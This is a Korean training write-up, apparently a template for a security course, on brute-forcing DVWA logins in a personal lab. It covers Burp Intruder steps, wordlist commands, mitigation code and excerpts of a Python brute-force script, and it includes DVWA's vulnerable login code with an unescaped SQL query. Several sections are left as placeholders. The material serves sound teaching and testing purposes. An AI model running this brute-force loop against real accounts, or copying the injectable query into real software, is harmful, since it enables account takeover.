



# 레퍼런스 Writeup

## 레퍼런스 Writeup

### 개요

이번 Writeup에서는 그루트 시큐리티 1주차 내용을 진행하며 배운 브루트포스 공격에 대한 공부 및 실습을 진행해봤습니다. 실습은 취약한 웹 환경인 DVWA (Damn Vulnerable Web Application)을 이용했으며, 모든 실습 및 공격은 본인이 소유한 가상머신에서 이뤄졌습니다.

이번 Writeup에서 다룰 브루트포스와 관련된 공부는 다음과 같습니다.

1. **취약점 설명/공부 -** 브루트포스 공격에 대한 연구
2. **개념증명 실습 -** Burpsuite, Hydra 등의 툴을 이용한 브루트포스 공격
3. **대응 방안 공부 -** 브루트포스 공격에 대한 시큐어코딩 및 대응 방안
4. **툴 제작 -** 자체 제작한 파이썬 툴을 이용한 브루트포스 공격

### 취약점 정보

<table><thead><tr><th width="207">정보</th><th>설명</th></tr></thead><tbody><tr><td><strong>이름</strong></td><td>사용자 인증 브루트포스 (Bruteforce)</td></tr><tr><td><strong>심각도</strong></td><td>높음</td></tr><tr><td><strong>CVSS</strong></td><td>8.1</td></tr><tr><td><strong>CVSS String</strong></td><td>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H</td></tr><tr><td><strong>위치</strong></td><td><a href="http://localhost/vulnerabilities/brute/?username=admin&#x26;password=password&#x26;Login=Login">http://localhost:80/vulnerabilities/brute/?username=admin&#x26;password=password&#x26;Login=Login</a></td></tr></tbody></table>

### 취약점 설명

사용자 인증 브루트포스는 공격자가 사용자의 유효한 자격 증명을 찾기 위해 유저 이름과 비밀번호를 인증 시스템에 무작위로 대입하는 공격입니다. 브루트포스 공격은 다양한 종류가 있지만, 웹 서버/웹 어플리케이션을 대상으로 하는 경우 기본 유저 이름(default username)을 알아낸 뒤 비밀번호를 사전 대입 공격하는 방식으로 많이 이루어집니다. 공격자는 브루트포스 공격을 통해 유효한 사용자의 자격 증명을 찾아낸 뒤 해당 사용자로 시스템에 접근하여 계정을 장악하거나 추가 권한 상승을 시도할 수 있습니다. 찾아낸 자격 증명이 관리자의 것인 경우 어플리케이션 전체 장악으로까지 이어질 수 있습니다.

해당 DVWA 어플리케이션의 `/vulnerabilities/brute` URL은 현재 사용자 인증 브루트포스 공격에 취약한 상태입니다. 해당 URL은 브루트포스를 대상으로 하는 보호 조치가 없는 상태입니다.

테스터들은 공격 개념 증명을 위해 해당 URL에 브루트포스 공격을 실행한 뒤, 약 100개의 HTTP 요청 끝에 어플리케이션의 기본 관리자 이름과 비밀번호를 알아냈습니다. 그 뒤 테스터는 해당 어플리케이션에 관리자 권한으로 접속해 `Protected Admin Area` 에 성공적으로 접근했습니다.

### 개념 증명

모의해킹팀은 해당 취약점에 대한 개념 증명을 위해 Burpsuite Intruder, Sniper 모드를 사용한 브루트포스 공격을 진행했습니다.

#### Burpsuite Intruder

먼저 Proxy 탭에서 사용자 인증을 할 때 HTTP 요청을 가로챈 뒤, 이를 Intruder 탭으로 넘깁니다. 이후, 유저이름 `admin`은 이미 공격자가 알고 있다고 가정한 뒤, 비밀번호에 대한 사전 대입 공격을 진행합니다. 이를 위해 `password=` 파라미터에 `$` 기호를 넣어 해당 파라미터만 사전 대입 공격을 진행합니다.

<figure><figcaption></figcaption></figure>

`Payloads` 탭에서는 모의해킹시 자주 쓰이는 `/usr/share/wordlists/rockyou.txt` 에서 랜덤한 100개의 비밀번호를 가져온 커스텀 사전 페이로드를 사용했습니다. 성공적인 실습을 위해 진짜 비밀번호인 `password` 도 추가합니다.

```bash
shuf -n 100 /usr/share/wordlists/rockyou.txt > pass-payload.txt
echo 'password' >> pass-payload.txt 
```

<figure><figcaption></figcaption></figure>

이후 `Start Attack` 을 눌러 브루트포스 공격을 실행합니다. 아래와 같이 유효한 비밀번호를 이용해 로그인을 할 경우 HTTP 응답의 크기가 4704가 되며, `Welcome to the password protected area admin` 메시지가 출력되는 것을 볼 수 있습니다.

<figure><figcaption></figcaption></figure>

### 취약점 원인

해당 웹 어플리케이션에서 브루트포스 공격이 가능한 까닭에 대해서 소스코드 분석을 통해 알아봅니다. 로그인을 담당하는 `low.php` 의 소스코드는 다음과 같습니다.

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	$user = $_GET[ 'username' ];
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );

	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "";
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```

위 소스코드에서 볼 수 있듯 현재 로그인을 담당하고 있는 코드 중 브루트포스 공격을 감지하거나 대응할 수 있는 코드가 없는 상태입니다. 또한, 해당 어플리케이션을 제외하고 브루트포스에 대응 가능한 다른 미들웨어나 WAF, 플러그인이 없다는 사실 또한 DVWA 개발팀과의 미팅에서 확인하였습니다.

< 원래라면 취약점이 발견되는 취약한 코드가 있어야 하지만, 이번의 경우 시큐어코딩의 부재 이기 때문에 딱히 설명할 것이 없음 >

### 대응 방안

브루트포스 공격은 다양한 방법으로 대응할 수 있습니다. 가장 많이 사용되는 방법으로서는

* 계정 잠금 - 시큐어코딩
* 자동화 방지 - 로그인 시 Captcha 등을 통해 추가 정보 요청
* Rate Limiting - WAF

등이 있습니다.

#### 1. 계정 잠금 - 시큐어코딩

어플리케이션단에서 브루트포스 공격은 시큐어코딩을 통한 계정 잠금 기능을 도입해 대응할 수 있습니다. 특정 유저의 계정에 대한 사용자 인증 요청이 특정 횟수 이상 진행되었을 때 유저의 상태를 `활성화` 상태에서 `잠금` 상태로 바꾸는 것입니다. 이러한 계정 잠금 기능은 PHP 백엔드에 적용되어 데이터베이스내의 유저의 실패한 로그인 요청 횟수와 계정 잠금 상태를 업데이트 하는 방식으로 적용될 수 있습니다. DVWA의 `impossible.php` 코드의 일부분을 분석하며 계정 잠금 기능이 어떻게 적용되었는지에 대해서 알아봅니다.

먼저 로그인이 실패할 시, 데이터베이스 내의 `Users` 테이블의 `failed_login` 의 값을 1씩 증가 시킵니다.

```php
// 로그인 실패시 failed_login 1씩 증가 
$data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
$data->bindParam( ':user', $user, PDO::PARAM_STR );
$data->execute();
```

`total_failed_login`, 즉, 실패 로그인 임계치를 넘을만큼 브루트포스 공격이 들어왔다면 유저의 계정 잠금 상태를 “잠김”으로 바꿉니다.

```php
if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
	// 마지막 로그인 시간 + 계정 잠김 시간을 계산 
	$last_login = strtotime( $row[ 'last_login' ] );
	$timeout    = $last_login + ($lockout_time * 60);
	$timenow    = time();

	// 계정 잠김 시간이 지나지 않았는데 로그인 요청이 왔을 경우, 잠김 상태로 전환 
	if( $timenow < $timeout ) {
		$account_locked = true;
	}
}
```

#### 2. 자동화 방지 - (re)Captcha

브루트포스 공격은 자동화된 툴이나 스크립트 등으로 이뤄지는 경우가 많습니다. 이때 툴/스크립트들에 대응하기 위해 자동화할 수 없는 특정 행위/데이터들을 인증 시스템에 추가해 자동화를 방지하는 방법으로도 브루트포스를 막을 수 있습니다. 예를 들어, 로그인을 하려고 할 때 특정 이미지를 클릭하게 만드는 “캡챠” 시스템을 사용할 수 있습니다.

< CAPTCHA에 관련된 설명 >

PHP에서 캡챠 시스템은 다양한 방식으로 사용할 수 있습니다.

1. 캡챠 기능을 지원하는 커스텀 PHP 코드 사용
2. 써드파티 캡챠 PHP 스크립트를 불러온 뒤 사용
3. 구글 reCAPTCHA 등의 외부 캡챠 시스템 사용

< 3개의 방법 중 관심 있는 방법에 대해서 더 공부 후 내용 추가 >

#### 3. Rate Limiting - WAF

Rate Limiting / Throttling (비율 제한) 은 정해진 시간 안에 너무 많은 HTTP 요청을 보내는 아이피주소를 블랙리스트 시키는 보안 제어입니다. 예를 들어 10초안에 50개의 HTTP 요청을 보내는 경우, 일반적인 사용자의 트래픽이라고 보기 어렵기 때문에 정해진 시간 만큼 블랙리스트를 적용시킵니다.

Rate Limiting은 어플리케이션단에 소스코드로 적용하기 보단 WAF (Web Application Firewall) 형태로 적용됩니다. 예를 들어, Cloudflare 사의 WAF의 경우 지정된 정책을 기반으로 해당 정책을 위반하는 행동의 IP 주소들을 일시적으로 블랙리스트에 올립니다.

< Cloudflare 가입 후 WAF Free plan 이용, WAF의 Rate Limiting 기능이 어떻게 돌아가는지에 대한 스크린샷 및 간단 설명 ([https://developers.cloudflare.com/support/firewall/tools/configuring-cloudflare-rate-limiting/](https://developers.cloudflare.com/support/firewall/tools/configuring-cloudflare-rate-limiting/)) >

### 툴 제작

프로그래밍 능력, 툴 제작, 그리고 툴 수정 능력을 키우기 위해 다음과 같은 파이썬 툴을 제작해 브루트포스 공격을 자동화 해봤습니다.

[https://github.com/ChoiSG/RTPSourceCodes/blob/main/web/dvwa-bruteforcer.py](https://github.com/ChoiSG/RTPSourceCodes/blob/main/web/dvwa-bruteforcer.py)

DVWA의 경우 첫번째 로그인을 해 어플리케이션에 접근해야 하기 때문에 먼저 requests 라이브러리의 Session을 이용해 세션을 구축해줍니다. 이 세션을 구축할 때 DVWA의 CSRF 토큰을 자동으로 찾아 적용해야 로그인이 성공적으로 이뤄집니다.

```
# Main auth into DVWA 
with requests.Session() as sess:
    main_auth_payload = { 
        'username': {args.username}, 
        'password': {args.password},
        'Login': 'Login'
    }

    res = sess.get(f'{args.target}' + '/login.php')

    try:
        user_token = bs4.BeautifulSoup(res.text, 'html.parser').select('input[name="user_token"]')[0]['value']
        main_auth_payload['user_token'] = user_token
        print(f"[+] CSRF user_token found: {user_token}")
    [ ... ] 

	res = sess.post(f'{args.target}/login.php', data=main_auth_payload)

```

첫번째 로그인이 끝난 뒤 세션이 구축이 됐다면 본격적으로 브루트포스 공격을 타겟에게 실행합니다. 타겟 URL인 `/vulnerabilities/brute?username=<username>&password=<pass>&Login=Login` 에게 특정 유저 이름 및 비밀번호 사전을 하나씩 대입하는 루프문을 통해 브루트포스를 실행합니다.

```
# Brute force attack to /vulnerabilities/brute using args.file dictionary 
with open(args.file, 'r') as f:
    for passwd in f:
        passwd = passwd.strip() 
        print(f"[*] Trying {passwd}...")
        payload = f'{args.target}/vulnerabilities/brute/?username={args.target_username}&password={passwd}&Login=Login'
        res = sess.get(payload)

        if res.status_code == 200 and 'Welcome to the password protected area' in res.text:
            print(f"\n[+] Bruteforce SUCCESS! Username: {args.target_username} Password: {passwd}\n")
            exit(0)
```

< 해당 툴의 한계와 asynchronous io 및 multiprocessing 을 통해 더 빠르게 공격할 수 있는 방안에 대한 설명 및 적용 >

< 데모 GIF나 영상은 필수임 >

### 레퍼런스

* OWASP - 브루트포스에 대한 일반적인 설명: [https://owasp.org/www-community/attacks/Brute\_force\_attack](https://owasp.org/www-community/attacks/Brute\_force\_attack)
* CrowdStrike - 브루트포스에 대한 일반적인 설명: [https://www.crowdstrike.com/cybersecurity-101/brute-force-attacks/](https://www.crowdstrike.com/cybersecurity-101/brute-force-attacks/)

< 표절 주의점에 대해서도 언급 >
